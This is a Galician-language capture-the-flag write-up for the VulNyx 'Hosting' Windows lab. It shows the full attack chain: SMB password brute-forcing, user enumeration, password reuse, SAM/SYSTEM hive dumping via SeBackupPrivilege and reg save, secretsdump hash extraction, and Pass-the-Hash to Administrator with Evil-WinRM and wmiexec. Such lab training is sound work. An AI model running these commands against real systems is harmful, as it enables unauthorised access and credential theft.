

Doc vulnyx hosting
A máquina Hosting é moi interesante porque...
- Sistema operativo Windows 10
- Servidor web IIS exposto
- Enumeración web con Gobuster
- Descubrimento de sección TEAM con correo electrónico
- Ataque de forza bruta con CrackMapExec sobre SMB
- Reutilización de contrasinais entre usuarios
- Enumeración de usuarios mediante RPC e SMB
- Acceso con Evil-WinRM como [usuario3]
- Privilexio SeBackupPrivilege e SeRestorePrivilege
- Dump de SAM e SYSTEM mediante reg save
- Pass-the-Hash con Evil-WinRM e wmiexec como Administrator
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Hosting -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Hosting
Resultado do escaneo de portos:
Portos identificados:
- Porto 80: Servidor web (IIS)
- Porto 445: SMB (Microsoft-DS)
- Porto 5985: WinRM (Windows Remote Management)
Fase 2 — Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos abertos
sudo nmap -p80,445,5985 -sCV IP_VulNyx_Hosting -oN targeted -oX targeted.xml
Información importante:
- Servidor web IIS no porto 80
- WinRM habilitado no porto 5985
- SMB accesible no porto 445
Enumeración web
# Enumerar directorios con Gobuster
gobuster dir -u http://IP_VulNyx_Hosting \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Resultado importante:
Descubrimento do directorio /[directorio-atopado]:
Contido da páxina:
- Sección TEAM con información do equipo
- Correo electrónico: [usuario1]@host.nyx
Análise da pista:
- Formato de correo:
[usuario1]@host.nyx - Posible nome de usuario:
[usuario1] - Nomenclatura: primeira inicial + apelido
Verificación de usuarios no sistema
# Acceder á máquina en VirtualBox para ver usuarios dispoñibles
# Na pantalla de inicio de sesión aparecen varios usuarios, entre eles:
# [usuario1]
Usuario confirmado: [usuario1]
Fase 3 — Explotación
Ataque de forza bruta sobre SMB
# Preparar lista de contrasinais
head -5000 /usr/share/wordlists/rockyou.txt > 5000-rockyou.txt
# Ataque de forza bruta sobre SMB con CrackMapExec
crackmapexec -t 200 smb IP_VulNyx_Hosting -u [usuario1] -p 5000-rockyou.txt
# Ataque de forza bruta sobre SMB con NetExec
netexec -t 200 smb IP_VulNyx_Hosting -u [usuario1] -p 5000-rockyou.txt
Saída esperada:
Credenciais válidas atopadas:
- Usuario:
[usuario1] - Contrasinal:
[contrasinal1]
Verificación de acceso con Evil-WinRM
# Intentar acceso con Evil-WinRM
evil-winrm -i IP_VulNyx_Hosting -u '[usuario1]' -p '[contrasinal1]'
Resultado: Non autentica ([usuario1] non ten permisos para WinRM)
Enumeración con SMB
# Enumerar recursos compartidos
crackmapexec smb IP_VulNyx_Hosting -u [usuario1] -p [contrasinal1] --shares
netexec smb IP_VulNyx_Hosting -u [usuario1] -p [contrasinal1] --shares
Saída:
SMB IP_VulNyx_Hosting 445 HOSTING [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB IP_VulNyx_Hosting 445 HOSTING [+] HOSTING\[usuario1]:[contrasinal1]
SMB IP_VulNyx_Hosting 445 HOSTING [+] Enumerated shares
SMB IP_VulNyx_Hosting 445 HOSTING Share Permissions Remark
SMB IP_VulNyx_Hosting 445 HOSTING ----- ----------- ------
SMB IP_VulNyx_Hosting 445 HOSTING ADMIN$ Admin remota
SMB IP_VulNyx_Hosting 445 HOSTING C$ Recurso predeterminado
SMB IP_VulNyx_Hosting 445 HOSTING IPC$ READ IPC remota
Enumeración de usuarios
# Enumerar usuarios co sistema mediante SMB
crackmapexec smb IP_VulNyx_Hosting -u [usuario1] -p [contrasinal1] --users
netexec smb IP_VulNyx_Hosting -u [usuario1] -p [contrasinal1] --users
Saída:
SMB IP_VulNyx_Hosting 445 HOSTING [+] HOSTING\[usuario1]:[contrasinal1]
SMB IP_VulNyx_Hosting 445 HOSTING [-] Error enumerating domain users using dc ip IP_VulNyx_Hosting: socket connection error while opening: [Errno 111] Connection refused
SMB IP_VulNyx_Hosting 445 HOSTING [*] Trying with SAMRPC protocol
SMB IP_VulNyx_Hosting 445 HOSTING [+] Enumerated domain user(s)
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\Administrador
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\administrator
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\DefaultAccount
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\[usuario4]
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\Invitado
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\[usuario3]
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\[usuario2] [contrasinal2]
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\[usuario1]
SMB IP_VulNyx_Hosting 445 HOSTING HOSTING\WDAGUtilityAccount
Descubrimento crítico:
- Usuario
[usuario2]ten contrasinal visible: [contrasinal2]
Enumeración con RPC
Comandos dentro de rpcclient:
rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[administrator] rid:[0x3ea]
user:[DefaultAccount] rid:[0x1f7]
user:[[usuario4]] rid:[0x3ec]
user:[Invitado] rid:[0x1f5]
user:[[usuario3]] rid:[0x3ee]
user:[[usuario2]] rid:[0x3ed]
user:[[usuario1]] rid:[0x3eb]
user:[WDAGUtilityAccount] rid:[0x1f8]
rpcclient $> enumdomgroups
group:[Ninguno] rid:[0x201]
rpcclient $> exit
Usuarios identificados:
Administradoradministrator[usuario4][usuario3][usuario2][usuario1]
Reutilización de contrasinais
Probamos a contrasinal [contrasinal2] con outros usuarios:
Saída:
Saída:
Credenciais válidas por reutilización:
- Usuario:
[usuario3] - Contrasinal:
[contrasinal2]
Acceso con Evil-WinRM como [usuario3]
Saída esperada:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\[usuario3]\Documents>
Obtención de flag de usuario
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\[usuario3]\Documents> cd ..\Desktop
# Ler flag de usuario
*Evil-WinRM* PS C:\Users\[usuario3]\Desktop> type user.txt
[FLAG_USER]
Flag de usuario conseguida
Fase 4 — Escalada de Privilexios
Verificar privilexios
Saída:
INFORMACIÓN DE PRIVILEGIOS
--------------------------
Nombre de privilegio Descripción Estado
============================= =================================================== ==========
SeBackupPrivilege Hacer copias de seguridad de archivos y directorios Habilitada
SeRestorePrivilege Restaurar archivos y directorios Habilitada
SeShutdownPrivilege Apagar el sistema Habilitada
SeChangeNotifyPrivilege Omitir comprobación de recorrido Habilitada
SeUndockPrivilege Quitar equipo de la estación de acoplamiento Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada
SeTimeZonePrivilege Cambiar la zona horaria Habilitada
Privilexios críticos identificados:
- SeBackupPrivilege: Permite facer copias de seguridade de calquera ficheiro
- SeRestorePrivilege: Permite restaurar ficheiros e directorios
Información sobre SeBackupPrivilege e SeRestorePrivilege
Que son estes privilexios?
SeBackupPrivilege e SeRestorePrivilege son privilexios de Windows que permiten:
- SeBackupPrivilege: Ler calquera ficheiro do sistema, incluídos os protexidos
- SeRestorePrivilege: Escribir en calquera localización, incluídas carpetas protexidas
Implicacións de seguridade
Con estos privilexios podemos:
- Acceder a ficheiros como SAM e SYSTEM
- Extraer hashes NTLM de todos os usuarios
- Realizar Pass-the-Hash como Administrator
Ficheiros obxectivo:
C:\Windows\System32\config\SAM: Contén hashes de contrasinaisC:\Windows\System32\config\SYSTEM: Contén chave de cifrado (bootkey)
Tentativa de descarga directa de SAM e SYSTEM
# Navegar ao directorio de config
*Evil-WinRM* PS C:\Users\[usuario3]\Desktop> cd C:\Windows\System32\config
# Intentar descargar SAM
*Evil-WinRM* PS C:\Windows\System32\config> download SAM
Info: Downloading C:\windows\system32\config\SAM to SAM
Info: Download successful!
# Intentar descargar SYSTEM
*Evil-WinRM* PS C:\Windows\System32\config> download SYSTEM
Info: Downloading C:\windows\system32\config\SYSTEM to SYSTEM
Info: Download successful!
Verificar ficheiros descargados:
Problema: Os ficheiros descárganse baleiros (están en uso polo sistema)
Solución: Crear copias con reg save
Usar reg save para crear copias dos ficheiros:
# Crear copia de SYSTEM
*Evil-WinRM* PS C:\Windows\System32\config> reg save hklm\system system.hive
La operación se completó correctamente.
# Crear copia de SAM
*Evil-WinRM* PS C:\Windows\System32\config> reg save hklm\sam sam.hive
La operación se completó correctamente.
# Verificar ficheiros creados
*Evil-WinRM* PS C:\Windows\System32\config> dir *hive
Saída:
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 11/11/2025 8:44 AM 57344 sam.hive
-a---- 11/11/2025 8:44 AM 12001280 system.hive
Descargar copias de SAM e SYSTEM
# Descargar sam.hive
*Evil-WinRM* PS C:\Windows\System32\config> download sam.hive
Info: Downloading C:\windows\system32\config\sam.hive to sam.hive
Info: Download successful!
# Descargar system.hive
*Evil-WinRM* PS C:\Windows\System32\config> download system.hive
Info: Downloading C:\windows\system32\config\system.hive to system.hive
Info: Download successful!
# Saír de Evil-WinRM
*Evil-WinRM* PS C:\Windows\System32\config> exit
Extraer hashes con secretsdump
# Extraer hashes NTLM con impacket-secretsdump
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Saída:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x827cc782adafc2fd1b7b7a48da1e20ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8afe1e889d0977f8571b3dc0524648aa:::
administrator:1002:aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c:::
[usuario1]:1003:aad3b435b51404eeaad3b435b51404ee:2cf4020e126a3314482e5e87a3f39508:::
[usuario4]:1004:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
[usuario2]:1005:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
[usuario3]:1006:aad3b435b51404eeaad3b435b51404ee:a6cf5ad66b08624854e80a8786ad6bac:::
[*] Cleaning up...
Hash NTLM de Administrator:
Hash NTLM: 41186fb28e283ff758bb3dbeb6fb4a5c
OPCIÓN A: Pass-the-Hash con Evil-WinRM
# Acceder como Administrator mediante Pass-the-Hash
evil-winrm -i IP_VulNyx_Hosting -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'
Saída esperada:
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrator\Documents>
OPCIÓN B: Pass-the-Hash con wmiexec
# Acceder como Administrator mediante Pass-the-Hash
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c administrator@IP_VulNyx_Hosting
Saída esperada:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
Verificar acceso e obter flag de root
OPCIÓN A: evil-winrm
# Verificar usuario
*Evil-WinRM* PS C:\Users\administrator\Documents> whoami
hosting\administrator
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\administrator\Desktop> type root.txt
[FLAG_ROOT]
OPCIÓN B: wmiexec
# Verificar usuario
C:\>whoami
hosting\administrator
# Navegar ao Desktop
C:\>cd C:\Users\administrator\Desktop
# Ler flag de root
C:\Users\administrator\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas mediante Pass-the-Hash
Correspondencia de fases → MITRE ATT&CK — VulNyx: Hosting
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows 10 | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración web con Gobuster | Web content discovery | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Descubrimento de correo electrónico con nome de usuario | Information disclosure | T1589.002 — Gather Victim Identity Information: Email Addresses T1589.003 — Gather Victim Identity Information: Employee Names |
CWE-200 — Information Exposure | |
| 3. Explotación | Forza bruta con CrackMapExec sobre SMB | Brute force attack | T1110 — Brute Force T1110.001 — Brute Force: Password Guessing |
CWE-521 — Weak Password Requirements |
| Enumeración de usuarios mediante RPC e SMB | User enumeration | T1087.001 — Account Discovery: Local Account T1087.002 — Account Discovery: Domain Account |
CWE-200 — Information Exposure | |
| Reutilización de contrasinais entre usuarios | Credential reuse | T1078 — Valid Accounts T1078.003 — Valid Accounts: Local Accounts |
CWE-255 — Credentials Management Errors | |
| Acceso con Evil-WinRM como [usuario3] | Remote service exploitation | T1021.006 — Remote Services: Windows Remote Management T1078 — Valid Accounts |
N/A | |
| 4. Escalada | Identificación de SeBackupPrivilege e SeRestorePrivilege | Privilege enumeration | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-269 — Improper Privilege Management |
| Dump de SAM e SYSTEM con reg save | Credential access from registry | T1003.002 — OS Credential Dumping: Security Account Manager T1552.002 — Unsecured Credentials: Credentials in Registry |
CWE-522 — Insufficiently Protected Credentials | |
| Extracción de hashes NTLM con secretsdump | Password hash extraction | T1003.002 — OS Credential Dumping: Security Account Manager T1552.001 — Unsecured Credentials: Credentials In Files |
CWE-522 — Insufficiently Protected Credentials | |
| Pass-the-Hash con Evil-WinRM como Administrator | Authentication with hash | T1550.002 — Use Alternate Authentication Material: Pass the Hash T1021.006 — Remote Services: Windows Remote Management |
N/A | |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre SeBackupPrivilege e SeRestorePrivilege
- Microsoft SeBackupPrivilege
- Microsoft SeRestorePrivilege
- HackTricks - SeBackupPrivilege
- Impacket secretsdump
Referencias sobre Pass-the-Hash
Comparativa: SeBackupPrivilege vs SeImpersonatePrivilege
Privilexios de escalada en Windows
| Característica | SeBackupPrivilege | SeImpersonatePrivilege |
|---|---|---|
| Función | Backup de ficheiros protexidos | Suplantar identidade doutros usuarios |
| Acceso a | SAM, SYSTEM, ficheiros protexidos | Tokens de SYSTEM |
| Método de escalada | Dump de SAM → Pass-the-Hash | Potato exploits → SYSTEM token |
| Ferramentas | reg save, robocopy, diskshadow | JuicyPotato, PrintSpoofer, SigmaPotato |
| Complexidade | Baixa | Media |
| Usuarios comúns | Grupos de backup, administradores | IIS, SQL Server, servizos |
| Resultado final | Hash NTLM → Pass-the-Hash | Shell como SYSTEM |
Conclusión: Ambos privilexios permiten escalada a Administrator/SYSTEM pero mediante métodos diferentes.